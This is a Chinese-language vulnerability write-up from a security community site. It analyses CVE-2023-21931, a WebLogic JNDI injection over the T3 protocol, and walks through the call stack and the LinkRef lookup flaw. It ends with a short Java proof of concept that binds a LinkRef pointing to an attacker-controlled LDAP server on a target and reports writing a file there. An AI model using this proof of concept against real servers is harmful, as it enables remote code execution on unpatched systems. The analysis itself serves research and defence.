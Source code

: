 

# CVE-2023-21931 Weblogic JNDI 注入漏洞原理分析及漏洞利用 - 先知社区

CVE-2023-21931 Weblogic JNDI 注入漏洞原理分析及漏洞利用



## 影响

Oracle WebLogic Server product of Oracle Fusion Middleware (component: Core)

*   12.2.1.3.0
    
*   12.2.1.4.0
    
*   14.1.1.0.0
    

## 原理

根据[nvd](https://nvd.nist.gov/vuln/detail/CVE-2023-21931)的描述

能够轻易的通过发送 T3 协议给 weblogic 服务造成 JNDI 的注入

这里的漏洞点和之前的 CVE-2023-21839 的成因感觉上是很像的，CVE-2023-21839 主要是因为 weblogic 的 t3 / iiop 协议支持远程绑定对象 bind / rebind 到服务端，之后在调用`lookup`的过程中，存在有参数可控的`lookup`的调用，也即是`weblogic.deployment.jms.ForeignOpaqueReference#getReferent`中代码

[![](assets/1701612511-0be5d7f90fd7bd9badcf95e6486f15a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192339-a1ed6f98-dea4-1.png)

而对于昨天公开的 CVE-2023-21931 这个漏洞，同样和上一次 CVE 一样，是在 lookup 的调用过程中存在有一个可控的 lookup 方法调用造成了一个 JNDI 注入，即是通过`LinkRef#getLinkName`方法来获取 ldap 查询串，具体的分析见下文

## 分析

前面提到了这里主要的漏洞成因是在进行 lookup 查询的过程中造成的问题

动态调试一下

给个调用栈：

```plain
lookup:417, InitialContext (javax.naming)
getObjectInstance:98, WLNamingManager (weblogic.jndi.internal)
resolveObject:388, ServerNamingNode (weblogic.jndi.internal)
resolveObject:886, BasicNamingNode (weblogic.jndi.internal)
lookup:219, BasicNamingNode (weblogic.jndi.internal)
invoke:-1, RootNamingNode_WLSkel (weblogic.jndi.internal)
invoke:701, BasicServerRef (weblogic.rmi.internal)
invoke:231, ClusterableServerRef (weblogic.rmi.cluster)
run:527, BasicServerRef$1 (weblogic.rmi.internal)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
handleRequest:523, BasicServerRef (weblogic.rmi.internal)
run:118, WLSExecuteRequest (weblogic.rmi.internal.wls)
execute:311, ExecuteThread (weblogic.work)
run:263, ExecuteThread (weblogic.work)
```

从调用栈中很明显，weblogic 主要是通过使用`BasicServerRef#invoke`来处理传递过来的数据

[![](assets/1701612511-8d986de5ee880bac16faf4a26540b978.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192530-e463654e-dea4-1.png)

对消息进行了一些处理之后，再次将请求传递给`RootNamingNode_WLSkel#invoke`方法继续处理

[![](assets/1701612511-8c7904cbb1b5a97849e26922bad915f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192536-e8270e6a-dea4-1.png)

开始就对 var1 进行不同的处理，经过`BasicServerRef#invoke`的处理，这时候的`var1`为 14，我们跟进`case 14`的具体实现

[![](assets/1701612511-34829a929b1a0599f164cd9896ca236a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192542-eb641096-dea4-1.png)

对接收到的请求进行消息的提取之后继续传递到`BasicNamingNode#lookup`

[![](assets/1701612511-5ffc6be0e31305e9042e485f577449c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192548-eef08212-dea4-1.png)

此时我们通过`getRest`返回的值为空，选择调用`resolveObject`方法，并传入我们自定义的数据进行处理

[![](assets/1701612511-9b82b7f8e192fded7a392031877e4929.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192553-f25464b4-dea4-1.png)

之后就分别是`BasicNamingNode / ServerNamingNode`的`resolveObject`方法的调用

[![](assets/1701612511-a349745968a58cb5d796237d1ea2b70f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192602-f76080fa-dea4-1.png)

最后会通过利用`WLNamingManager#getObjectInstance`获取我们的对象实例

这两个 CVE 主要就是这里了

[![](assets/1701612511-c613eb46d4fd46854ee51cb7e39c6291.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192609-fb5a0c1c-dea4-1.png)

分别是上面两个箭头所示位置

这里主要判断这个 CVE，如果我们 bind 的对象是一个`LinkRef`对象，将会进入 else if 语句中，在这其中，lookup 方法的参数是通过调用`LinkRef#getLinkName`方法来进行获取的

[![](assets/1701612511-953f000d11efc72169d9525984281e5e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192616-ffffc978-dea4-1.png)

很简单的可以通过利用构造方法传入一个 ldap 查询连接来对 linkName 赋值

写一个 demo 证明一下

[![](assets/1701612511-7ee00540bf09b4b95584b3c12ce09172.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192631-08657c8e-dea5-1.png)

[![](assets/1701612511-a28ce6cd39e907704671b9041c6398d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192637-0c842720-dea5-1.png)

所以，目的现在就很明确了

## POC 构造

我们之后进行 POC 的构造

对于漏洞利用的构造首先就是需要将恶意的对象也即是`LinkRef`绑定到服务端中

首先创建一个用来绑定远程对象的 InitialContext

```plain
String url = "t3://192.168.153.136:7001"; // 目标机器
Hashtable env1 = new Hashtable();
env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
env1.put(Context.PROVIDER_URL, url); // 目标
InitialContext c = new InitialContext(env1);
```

之后就是将我们的恶意`LinkRef`对象绑定

```plain
LinkRef linkRef = new LinkRef("ldap://192.168.153.1:1389/5irv7b");
c.rebind("sectest", linkRef);
```

最后只需要进行`lookup`查询调用就能够进行 JNDI 注入攻击

验证一下

## 漏洞利用

运行 JNDI 注入工具

[![](assets/1701612511-4b1eb9a79303e453421fb1bc2a411656.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192732-2cdef43c-dea5-1.png)

漏洞环境中不存在 2023 文件

[![](assets/1701612511-9a96b7cecc29c0b6ed85fd530a7fd1f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192738-30c67886-dea5-1.png)

运行漏洞利用程序

[![](assets/1701612511-434905c6a8b5c938d476ba4c5a789ce6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192744-33fc0782-dea5-1.png)

[![](assets/1701612511-46d9f3ba01c290c0eebce9b78e81fcd1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192749-372dcbde-dea5-1.png)

成功写入了一个空文件

## Ref

[https://xz.aliyun.com/t/12297](https://xz.aliyun.com/t/12297)

[https://nvd.nist.gov/vuln/detail/CVE-2023-21931](https://nvd.nist.gov/vuln/detail/CVE-2023-21931)
